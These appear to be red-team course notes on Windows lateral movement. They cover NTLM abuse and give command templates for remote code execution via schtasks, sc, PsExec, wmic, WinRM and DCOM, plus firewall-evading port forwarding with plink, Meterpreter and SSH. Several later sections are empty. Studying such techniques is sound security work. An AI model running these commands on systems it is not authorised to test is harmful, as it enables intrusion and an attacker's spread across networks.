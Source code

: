 # Lateral Movement

## 1. NTLM Authzentication and Abuse
NTLM serves to provide authentication, integrity and confidentiality. Even though dated (using MD4), it is still available in modern windows and is used when: standalone server is not domain joined, kerberos is not supported, ip address is used, DNS fails. In practice it is hardly ever possible to disable NTLM. 
Possible attacks are: 
- pass-the-hash
- NTLM relay (man-in-the-middle)
- break NTLM hash (as not that strong)



## 2. Lateral Movement
Given we have the required credentials, an attacker can move laterally (aka execute malicious code on other machines) by various means: 
- Create a scheduled task (on remote system)`
    - `schtasks /create /s {IP} /tn {name} /u {user} /sc {frequency} /p {password} /st {time} /sd {date} {command}`
- Creating System services
    - `sc \\IP create Service binPath=<command>`
- PsExec
    - `psexec \\test.domain -u Domain\User -p Password ipconfig`
- WMI
    - `wmic /node:target.domain process call create "C:\Windows\System32\cmd.exe /c payload.exe"`
- Windows Remote Management (WinRM)
    - `winrs -r:EXAMPLE.lab.local -u:DOMAIN\user -p:password calc.exe`
    - `Invoke-Command -ComputerName TARGET -ScriptBlock { dir c:\ }` via powershell
- DCOM
    - DCOM is a way to execute code on a remote machine. (is less easily detected than default tools)
    - Examples see "06 Lateral Movement.pdf"
        - run a excel on another machine (and excel runs macro)
    - DCOM can also be used to start/stop services, get system info, shut down system etc.

**Double-Hop-Problem** -> with Network logons (like WMI, WinRM)
Network logons don't send credentials to remote system and are therefore not available. So it is not possible to jump to the next machine from there. Therefore, attacker needs to steal a token from a non-network logon session and then inject it in to another process (see pdf)

*Remark: some of the techniques can also be used for persistence*
*Remark: cobalt strike has various means for lateral movement*


**Port forwarding**
To bypass firewalls, prevent inspection,  prevent being detected..
- PuTTY Link (SSH tunneling of a specific port)
    `plink.exe -l root -pw pass123 [target host] -R localhost:3389:127.0.0.1:3389`
- Meterpreter  (forward RDP from localhost to a target host pivoting thru the Meterpreter session)
    - `portfwd add –l 3389 –p 3389 –r [target host]`
- also possible with cobalt strike
- Linux
    - `ssh -L localhost:3389:127.0.0.1:3389 root@[target host]` SSH tunneling of a specific port
    - `ssh -D 9050 root@[target host]` application-level port forwarding acting as SOCKS server


**SOCKS Pivoting**
see pdf (example: How to tunnel the Windows RDP client to your target network?)
can be done with Cobalt Strike or Metasploit

**Password Spraying & Reuse**
see separate file 

## 3. Kerberos Authentication and Abuse

## 4. Persistance


## 5. Red Team War Stories

## 6. Recap


